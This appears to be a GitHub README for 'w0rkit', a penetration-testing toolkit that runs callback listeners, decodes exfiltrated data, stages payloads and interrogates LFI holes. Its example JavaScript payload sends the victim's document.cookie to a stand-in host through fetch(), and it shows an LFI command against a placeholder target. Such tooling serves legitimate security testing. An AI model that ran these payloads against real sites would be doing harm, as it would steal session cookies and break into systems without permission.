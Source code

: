 # w0rkit

A small toolkit containing response handling and parsing solutions that come in handy during PT/BH.

Disclaimer: Pls no evil :(

## Installation

1. `git clone ...`

2. `poetry install`

Done :-)

## Usage

A new way of running the tool is introduced in order to make it more extensible.
Currently under very active development of LFI mode (unstable, don't expect it to work for your purpose)
The `web` mode is stable and can be used as demonstrated below.

The new modes are `web` and `lfi`, where `web` contains the old stager, and response receiver/decoder.

### Web

Currently supports 2 modes. (`simple` and `b64d`).

#### Simple
Just logs request source, headers and parameters. GET only.

`w0rkit web simple -l [listen_address] -p [listen_port]`

So with `-l 127.0.0.1` and `-p 80`:
```
$ curl "http://localhost/?query1=foo&query2=bar&something=somethingelse"
OK
```

Result:

![Result](img/simple.png)

#### b64d
Fetches a `magic_param` from the GET query parameters, base64decodes it and removes url encoding.

`w0rkit web b64d -l [listen_address] -p [listen_port] -m [magic_param]`
`-m` is optional and will default to `?q=`

So with `-l 127.0.0.1`, `-p 80` and `-m decodeme`:

```
$ curl "http://localhost/?decodeme=JTNDaHRtbCUzRSUwQSUzQ2hlYWQlM0UlMEElM0N0aXRsZSUzRU9oJTIwd293JTJDJTIwc28lMjByZWFkYWJsZSUzQy90aXRsZSUzRSUwQSUzQy9oZWFkJTNFJTBBJTNDYm9keSUzRSUwQSUzQy9ib2R5JTNFJTBBJTNDL2h0bWwlM0U%3D%3D"
OK
```

Result:

![Result](img/b64d.png)


#### Stager
All apps also have a stager route, as of writing it isn't configurable and reads directly out of `w0rkit/web/static/payloads/`
The stager can be used in a lot of different attacks. This is a safer replacement-to-be for always running `python3 -m http.server` :-)

An Example stored (hardcoded) blind XSS/CSRF attack is currently included in the stager.
When running the code:

```javascript
// This is just an example payload that you could serve

async function runPayload(){
    let result = await fetch(`http://back-to-our-host.local/?q=${btoa(escape(document.cookie))}`)
}

runPayload()
```
So by visiting `http://localhost/stager/example.html` while running in `b64d` mode with `-s (--stager)` enabled:

Result:

![Result](img/stager_b64d.png)


### LFI

#### Interrogate

Interactive LFI interrogation mode. Facilitates requesting and decoding files after finding a succesful exploitation.

`w0rkit lfi interrogate -i "http://vulnerable.target/index.php?filepath=" --filter-mode spf`


### Useful for
* Serve Anything, like RFI or DTD Payloads(and exfiltrate easily with `b64d` in OOB situations)
* XSS Pivoting
* Interactive LFI (~~Soon™~~ WIP!) 

Happy Hunting!
